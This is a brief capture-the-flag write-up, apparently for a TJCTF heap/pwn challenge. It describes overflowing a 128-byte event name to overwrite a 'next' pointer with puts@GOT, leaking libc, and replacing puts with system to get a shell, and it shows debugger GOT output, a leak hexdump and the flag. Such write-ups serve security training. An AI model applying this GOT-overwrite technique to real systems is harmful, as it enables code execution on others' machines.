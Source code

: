 # 思路
    char name[128];
    struct event *next;
名字长度256，有溢出，把next改为puts_got,泄漏libc，改puts为system
# debug
```
[0x404000] free@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
[0x404008] puts@GLIBC_2.2.5 -> 0x7fafe759cbe0 (puts) ◂— endbr64
[0x404010] __stack_chk_fail@GLIBC_2.4 -> 0x401050 ◂— endbr64
[0x404018] setbuf@GLIBC_2.2.5 -> 0x7fafe75a4750 (setbuf) ◂— endbr64
[0x404020] printf@GLIBC_2.2.5 -> 0x7fafe7575100 (printf) ◂— endbr64
[0x404028] fgets@GLIBC_2.2.5 -> 0x7fafe759ab30 (fgets) ◂— endbr64
[0x404030] malloc@GLIBC_2.2.5 -> 0x7fafe75c2650 (malloc) ◂— endbr64
[0x404038] atoi@GLIBC_2.2.5 -> 0x7fafe755b660 (atoi) ◂— endbr64

[DEBUG] Received 0x47 bytes:
    00000000  33 38 38 31  34 32 31 37  39 32 3a 30  30 20 2d 20  │3881│4217│92:0│0 - │
    00000010  af 7f 0a 0a  0a 41 64 64  20 61 6e 20  65 76 65 6e  │····│·Add│ an │even│
    00000020  74 20 74 6f  20 79 6f 75  72 20 63 61  6c 65 6e 64  │t to│ you│r ca│lend│
    00000030  61 72 3a 0a  45 76 65 6e  74 20 74 69  6d 65 3f 20  │ar:·│Even│t ti│me? │
    00000040  28 31 2d 32  34 29 20                               │(1-2│4) │
    00000047
3881421792:00 - \xaf\x7f
```
# getshell
tjctf{i_h0pe_my_tre3s_ar3nt_b4d_too}
![](https://r2.20161023.xyz/pic/20250608025242617.png)